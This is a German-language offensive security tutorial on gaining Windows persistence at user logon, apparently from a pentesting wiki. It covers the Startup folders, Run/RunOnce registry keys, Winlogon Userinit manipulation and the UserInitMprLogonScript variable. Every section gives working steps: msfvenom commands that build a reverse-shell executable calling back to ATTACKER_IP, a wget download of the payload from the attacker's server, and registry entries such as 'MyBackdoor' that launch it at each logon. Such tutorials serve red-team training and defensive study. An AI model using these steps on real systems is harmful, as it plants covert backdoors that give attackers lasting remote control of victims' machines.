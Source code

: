 # Persistenz über Benutzeranmeldung

{% hint style="info" %}
Bestimmte Aktionen eines Benutzers können mit der Ausführung von Schadcode (Payloads) verknüpft werden, um Persistenz zu erreichen. Windows bietet mehrere Mechanismen, um Payloads an spezifische Benutzerinteraktionen zu koppeln. In diesem Zusammenhang liegt der Fokus auf Methoden, bei denen Payloads beim **Benutzeranmeldevorgang** automatisch ausgeführt werden.
{% endhint %}

### **Startup-Ordner**

Jeder Windows-Benutzer hat einen **persönlichen Autostart-Ordner**, in dem platzierte Programme beim Login automatisch gestartet werden:

* **Benutzerbezogen:**\
  `C:\Users\<USERNAME>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup`
* **Für alle Benutzer:**\
  `C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp`

#### Beispiel:

1.  Reverse Shell erstellen:

    ```bash
    msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4450 -f exe -o revshell.exe
    ```
2.  Datei zur Zielmaschine übertragen (z. B. mit Python HTTP Server und `wget`):

    ```powershell
    wget http://ATTACKER_IP:8000/revshell.exe -O revshell.exe
    ```
3.  Datei in den globalen Autostart-Ordner verschieben:

    ```cmd
    copy revshell.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\"
    ```
4. **Sitzung abmelden und wieder anmelden** → Shell wird aktiv.

***

### **Registry: Run / RunOnce Keys**

Programme lassen sich auch über bestimmte Registry-Einträge beim Login automatisch starten:

* **Nur aktueller Benutzer:**\
  `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`\
  `HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce`
* **Systemweit:**\
  `HKLM\Software\Microsoft\Windows\CurrentVersion\Run`\
  `HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce`

#### Beispiel:

1.  Reverse Shell generieren:

    ```bash
    msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4451 -f exe -o revshell.exe
    ```
2.  Datei nach `C:\Windows` verschieben:

    ```cmd
    move revshell.exe C:\Windows
    ```
3. Registry-Eintrag unter `HKLM\...\Run` setzen:\
   Name: `MyBackdoor`, Typ: `REG_EXPAND_SZ`, Wert: `C:\Windows\revshell.exe`
4. **Abmelden und wieder anmelden** → Shell wird aktiv.

***

### **Winlogon Manipulation**

Die Komponente `Winlogon` kann manipuliert werden, um beim Login eigene Programme zu starten. Zwei Registry-Schlüssel sind relevant:

* `HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit`
* `HKLM\...\Winlogon\shell`

Standardwert von `Userinit`:

```
C:\Windows\system32\userinit.exe,
```

→ Payload **mit Komma hinzufügen**, nicht ersetzen.

#### Beispiel:

1. Reverse Shell erzeugen und nach `C:\Windows` verschieben.
2.  Registry-Schlüssel `Userinit` bearbeiten:\
    Neuer Wert:

    ```
    C:\Windows\system32\userinit.exe,C:\Windows\revshell.exe
    ```
3. **Abmelden und wieder anmelden** → Shell aktiv.

***

### **Logon Scripts über Umgebungsvariable**

`userinit.exe` prüft beim Login die Umgebungsvariable `UserInitMprLogonScript`. Diese kann genutzt werden, um ein **individuelles Logon-Skript** auszuführen.

* Gilt nur für den aktuellen Benutzer (kein HKLM-Äquivalent).

#### Beispiel:

1. Reverse Shell erstellen und nach `C:\Windows` kopieren.
2. Registry-Schlüssel:\
   `HKCU\Environment`\
   → Neuer Eintrag:\
   Name: `UserInitMprLogonScript`, Typ: `REG_SZ`, Wert: `C:\Windows\revshell.exe`
3. **Abmelden und wieder anmelden** → Shell wird aktiviert.
